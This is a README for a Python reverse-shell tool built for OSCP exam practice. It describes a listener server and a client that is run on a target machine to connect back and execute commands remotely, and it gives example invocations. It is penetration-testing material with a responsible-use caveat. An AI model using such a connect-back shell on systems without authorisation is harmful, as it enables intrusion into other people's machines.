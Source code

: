 # Pachirisu-Script
This is a penetration testing tool for use with OSCP.

## Table of Contents
- [Introduction](#introduction)
- [Features](#features)
- [Usage](#usage)
- [Demo](#demo)
- [Supported OS](#supported-os)
- [Caveats](#caveats)
- [Todo](#todo)

## Introduction
This is a tool to be used instead of Meterpreter at OffSec Certified Professional (OSCP). Meterpreter can only be used once during an exam. However, the reverse shell using nc.exe is difficult to use. So I decided to create a reverse shell and receiver with some of the functionality of Meterpreter for my own use.

I like Pachirisu from Pokemon so I named my tool after it.

## Features
- Manage multiple shells from a single prompt.
- Works on both Windows and Linux.
- Easily switch between different connected clients.
- Simple command execution on remote systems.
- No need for additional tools beyond Python3.

## Usage

1. **Server Setup:**
   - Run the `server.py` script to start listening for incoming connections.
   - You can specify the IP and port to listen on as arguments. If not specified, it defaults to `0.0.0.0:9999`.
     ```sh
     python server.py [listen_ip] [listen_port]
     ```
   - Example:
     ```sh
     python server.py 0.0.0.0 9999
     ```

2. **Client Setup:**
   - Run the `client.py` script on the target machine to connect back to the server.
   - You can specify the target IP and port as arguments. If not specified, it defaults to `127.0.0.1:9999`.
     ```sh
     python client.py [target_ip] [target_port]
     ```
   - Example:
     ```sh
     python client.py 192.168.1.10 9999
     ```

3. **Interacting with Clients:**
   - Once a client is connected, you can select the client by its number from the list of active connections.
   - Enter commands to be executed on the selected remote machine.
   - To switch between different clients without disconnecting, use the `quit pachirisu` command to return to the client selection menu.


## Demo

## Supported OS
- Windows 11
- Linux
with Python3 installed.

## Caveats
- Ensure network connectivity between the server and clients.
- Proper firewall and network settings must be configured to allow for reverse shell connections.
- Use responsibly and only on systems you have permission to test.

## Todo
- Add encryption to the communication between server and client for enhanced security.
- Create a more user-friendly interface for managing multiple connections.
- Improve error handling and stability.
- Add logging of sessions and commands executed.
